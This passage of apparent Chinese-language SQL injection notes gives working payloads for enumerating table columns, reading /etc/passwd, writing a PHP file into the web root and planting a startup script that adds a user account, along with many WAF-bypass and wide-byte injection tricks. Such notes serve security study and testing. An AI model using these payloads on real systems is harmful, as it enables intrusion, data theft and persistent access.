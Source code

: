     ```
    union select 1, column_name, 3 from information_schema.columns where table_name='admin' limit 0,1%23
    ```
2.  文件读写

    * 读取关键文件

    ```
    select LOADFILE('/etc/passwd');
    ```

    * 写入shell：

    ```
    select '<?php phpinfo();?>' into dumpfile '/var/www/html/1.php'
    ```

    * mysql5.7之后，引入了secure-file-priv新特性来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()
3.  命令执行

    * 利用数据库对服务器写启动脚本：

    ```
    union select 1,2,3,"net user cimer cimer /ad" into outfile 'C:/documents and settings/all users/start menu/programs/startup/add.bat'
    ```

### WAF绕过

* WAF：Web Application Firewall，web应用防护系统。
* 双写关键字 → 针对WAF是用简单的非迭代的将select、or语句替换为空字符串。比如：`SEselectLECT` →replace→ `SELECT`
* 大小写绕过：应用简单的区分大小写的关键字匹配，比如php中的preg_match函数没有加/i参数
*   编码绕过：

    1. ASCII。比如：

    ```
    select * from admin where username=(CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110))
    ```

    1. 其他：16进制、unicode编码、URL编码（开发程序员不知道url会自动解码一次，自己再写了url解码函数，我们可以将URL编码两次）
* more trick：
  * `and` → `&&` ； `or` → `||` ；`select username from admin` → `select(username)from(admin)`、`select\**\username\**\from\**\admin` （%a0、%0a、%0d、%09、tab...）。
  * 科学记数法绕过：`where username=1e1union select`
  * `>`, `=`, `<` 被限制：`where pass in (1,2)`、`where id between 1 and 3`、`like`
  * mysql对%00不会截断：`se%00lect`
  * PS：SQL测试语法（测试字符 `'1'` 与字符 `a` 的大小）：`select '1' > 'a'`

### 其他注入方式

1. 二次注入：攻击者将恶意SQL语句插入到数据库中，程序直接带入查询
2. 宽字节注入：当数据库中使用了宽字符集（如GBK），会将一些两个字符当作一个字符。
   * 比如：`0xbf27`、`0xbf5c`
   * 反斜杠是`0x5c`，使用addslashes()等转义函数在处理输入时会将"`、\、`"这些字符用反斜杠转义，输入`0xbf27`，转义后变成了`0xbf5c27`。
3. sprintf → 执行语句使用sprintf和vsprintf进行拼接，且进行了两次拼接，第一次拼接的参数可控：
